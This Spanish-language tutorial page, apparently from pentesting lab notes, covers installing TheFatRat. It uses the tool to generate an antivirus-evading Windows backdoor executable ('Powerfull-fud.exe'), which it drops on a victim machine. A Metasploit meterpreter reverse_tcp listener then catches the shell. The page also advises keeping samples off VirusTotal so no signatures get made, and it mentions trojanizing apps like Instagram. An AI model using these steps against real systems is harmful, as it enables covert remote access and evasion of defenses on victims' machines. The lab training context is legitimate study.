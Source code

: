 ```yaml
---
icon: mouse-field
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Evasión con TheFatRat

Vamos a ver una herramienta que se utiliza para la evasion de defensas super popular que esta en el siguiente repositorio de `GitHub`:

URL = [TheFatRat GitHub](https://github.com/screetsec/TheFatRat)

No viene instalada por defecto en `kali` por lo que tendremos que realizar lo siguiente para instalarla, adelanto que esta herramienta trae varias tecnicas de `frameworks` famosas para la evasion de defensas, por eso es tan famosa:

```shell
git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh
sudo ./setup.sh
```

Mientras se esta instalando nos aparecera mas adelante una opcion la cual le daremos al `2`:

```
Select one of the options bellow                                                        
 +-----------------------------------------------------+                           
 | [ 1 ] Setup Backdoor-Factory Path Manually          |                           
 | [ 2 ] Install Backdoor-Factory from Kali Repository |                           
 +-----------------------------------------------------+                           
 
 Option : 2 
```

Despues nos aparecera esta otra opcion le daremos a `ENTER` seguidamente la `y`:

```
Write output directory for fatrat generated files or press enter to default.                              
Default : /root/Fatrat_Generated                                                                                                                                      
Write:                                                                             
 Do you want to create a shortcut for fatrat in your system                        
 so you can run fatrat from anywhere in your terminal and desktop ?                                                                                                   
 Choose y/n : y
```

Y con esto ya tendremos la herramienta instalada de forma correcta.

Ahora para iniciar la aplicacion tendremos que poner lo siguiente:

```shell
sudo fatrat
```

Y esto empezara a realizar los checkeos pertinentes para ver que todo este en orden, una vez realizado todo eso, nos pondra el siguiente mensaje:

```
==================================================================                   
         WARNING !  WARNING ! WARNING ! WARNING ! WARNING !                                
    YOU CAN UPLOAD OUTPUT/BACKDOOR FILE TO WWW.NODISTRIBUTE.COM                         
==================================================================                      
 ____  _____ _____ _____    _____ _____ __    _____ _____ ____                     
|    \|     |   | |_   _|  |  |  |  _  |  |  |     |  _  |    \                    
|  |  |  |  | | | | | |    |  |  |   __|  |__|  |  |     |  |  |                   
|____/|_____|_|___| |_|    |_____|__|  |_____|_____|__|__|____/                    
                         _____ _____                                               
                        |_   _|     |                                              
                          | | |  |  |                                              
                          |_| |_____|                                             
 _____ _____ _____ _____ _____    _____ _____ _____ _____ __                
|  |  |     | __  |  |  |   __|  |_   _|     |_   _|  _  |  |                      
|  |  |-   -|    -|  |  |__   |    | | |  |  | | | |     |  |__                    
 \___/|_____|__|__|_____|_____|    |_| |_____| |_| |__|__|_____|                              
==================================================================                             
       PLEASE DON'T UPLOAD BACKDOOR TO WWW.VIRUSTOTAL.COM                                  
    YOU CAN UPLOAD OUTPUT/BACKDOOR FILE TO WWW.NODISTRIBUTE.COM                    
==================================================================                                                                                                    
Press [Enter] key to continue ..............
```

Aqui nos avisa de que no subamos los binarios a `virustotal` ya que este lo comparte con los diferentes antivirus y asi pueden crear firmas para dicho binario y que despues no sirva para `bypassearlo`, despues de esto le daremos a `ENTER`, despues otra ver `ENTER` se iniciara una base de datos de `postgresql` y por ultimo veremos el menu de la herramienta:

```
resize: Time out occurred                                                                                                                                             
         ____                                                                      
        |    |                                                                     
        |____|                                                                     
       _|____|_       _____ _       _____     _   _____     _                      
        /  ee\_      |_   _| |_ ___|   __|___| |_| __  |___| |_                    
      .<     __O       | | |   | -_|   __| .'|  _|    -| .'|  _|                   
     /\ \.-.' \        |_| |_|_|___|__|  |___|_| |__|__|___|_|                     
    J  \.|'.\/ \                                                                   
    | |_.|. | | |   [--]   Backdoor Creator for Remote Acces [--]                  
     \__.' .|-' /   [--]  Created by: Edo Maland (Screetsec) [--]                  
     L   /|o'--'\   [--]            Version: 1.9.8           [--]                  
     |  /\/\/\   \  [--]          Codename: Target          [--]             
     J /      \.__\ [--]   Follow me on Github: @Screetsec   [--]                  
     J /      \.__\ [--]   Dracos Linux : @dracos-linux.org  [--]                  
     |/         /   [--]                                     [--]                  
       \      .'\.  [--]     SELECT AN OPTION TO BEGIN:      [--]                  
    ____)_/\_(___\. [--] .___________________________________[--]                  
   (___._/  \_.___)'\_.-----------------------------------------/                                                                                                 
        [01]  Create Backdoor with msfvenom                                        
        [02]  Create Fud 100% Backdoor with Fudwin 1.0                             
        [03]  Create Fud Backdoor with Avoid v1.2                                  
        [04]  Create Fud Backdoor with backdoor-factory [embed]                    
        [05]  Backdooring Original apk [Instagram, Line,etc]                       
        [06]  Create Fud Backdoor 1000% with PwnWinds [Excelent]                   
        [07]  Create Backdoor For Office with Microsploit                          
        [08]  Trojan Debian Package For Remote Acces [Trodebi]                     
        [09]  Load/Create auto listeners                                           
        [10]  Jump to msfconsole                                                   
        [11]  Searchsploit                                                        
        [12]  File Pumper [Increase Your Files Size]                          
        [13]  Configure Default Lhost & Lport                                    
        [14]  Cleanup                                                           
        [15]  Help                                                           
        [16]  Credits                                                         
        [17]  Exit                                                                                                                                           
 ┌─[TheFatRat]──[~]─[menu]:           
 └─────►   
```

Por lo que vemos podemos `backdoorizar` un binario de muchas formas en este `framework`, podemos hacerlo de diferentes formas con las diferentes herramientas que nos proporciona, incluso en la opcion `05` podemos ver que podemos generar una aplicacion como `instagram` para que cuando se ejecute, tambien se ejecute un `backdoor` que estara por detras para crearnos una `reverse shell`.

En este caso vamos a probar la opcion `2`, por lo que pondremos `2` y nos llevara a dicha tecnica viendo otras opciones:

```
  _______ ___ ___ ______   ___ ___ ___ ______  
  |   _   |   Y   |   _  \ |   Y   |   |   _  \ 
  |.  1___|.  |   |.  |   \|.  |   |.  |.  |   |
  |.  __) |.  |   |.  |    |. / \  |.  |.  |   |
  |:  |   |:  1   |:  1    |:      |:  |:  |   |
  |::.|   |::.. . |::.. . /|::.|:. |::.|::.|   |
   ---     ------- ------   --- --- --- --- ---   1.0
 
 Select one tool to create your Windows EXE FUD Rat 
 

 [ 1 ] - Powerstager 0.2.5 by z0noxz (powershell) (NEW)
 [ 2 ] - Slow But Powerfull (OLD)
 [ 3 ] - Return to menu

 ┌─[TheFatRat]──[~]─[FUDWIN]:
 └─────► 
```

En este caso podremos seleccionar el nuevo `payload` que ha salido para poder generarlo con `powershell` o podremos utilizar el viejo pero que es muy potente, vamos a darle al numero `2` y esto nos abrira una mini ventana de terminal en el que se nos generara el `payload`.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Despues de poner la `IP` y el puerto, veremos esto otro:

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seleccionaremos la opcion `2` para que nos lo compile en `64 bits`, esto puede tardar un poco, pero cuando haya terminado veremos esto:

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

Aqui nos comenta que ya compilo el binario de la `backdoor` pero que lo compilo una segunda vez el original para que este de forma mas ofuscada y el segundo compilado se llama `Powerfull-fud.exe` que es el que vamos a utilizar, nos muestra que esta en la siguiente ruta:

```shell
sudo ls -la /root/Fatrat_Generated
```

Info:

```
total 4528
drwxr-xr-x  2 root root    4096 Feb  8 07:03 .
drwx------ 12 root root    4096 Feb  8 07:03 ..
-rwxr-xr-x  1 root root 2591185 Feb  8 07:03 Powerfull.exe
-rwxr-xr-x  1 root root 2035665 Feb  8 07:03 Powerfull-fud.exe
```

Vemos que efectivamente se creo de forma correcta por lo que vamos a copiarnoslo a nuestro escritorio de `kali`.

```shell
sudo cp /root/Fatrat_Generated/Powerfull-fud.exe ~/Desktop
```

Ahora nos tendremos que pasar ese `binario` a la maquina `WS02` para probarlo a ver si lo detecta o no el `antivirus` hay a veces que lo puede detectar, ya que la forma en que la compila varia dependiendo de cuando lo ejecutes, por lo que hay que tener un poco de suerte tambien, pero vamos a probar a pasarnoslo a nuestra maquina victima `Windows`.

Por lo que vemos si nos lo pasamos a la maquina `Windows` con el `antivirus` activado, no nos lo va a detectar en mi caso, ahora vamos a probar a ejecutarlo, pero antes tendremos que estar a la escucha:

```shell
msfconsole -q
```

Ahora vamos a configurar la escucha:

```shell
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.5.205
set LPORT 7777
run
```

Ahora que estamos a la escucha, vamos a nuestra maquina victima `windows` y ejecutamos el binario directamente.

Si nos vamos donde tenemos la escucha tendremos que ver una conexion en `metasploit`, si tuvieramos alguna duda, podremos monitorearlo con `Wrireshark` por si vieramos trafico `TCP`, si vemos ese trafico es que se esta realizando la conexion, pero si no lo vemos es por que el binario esta mal formado o no se esta ejecutando de forma correcta.
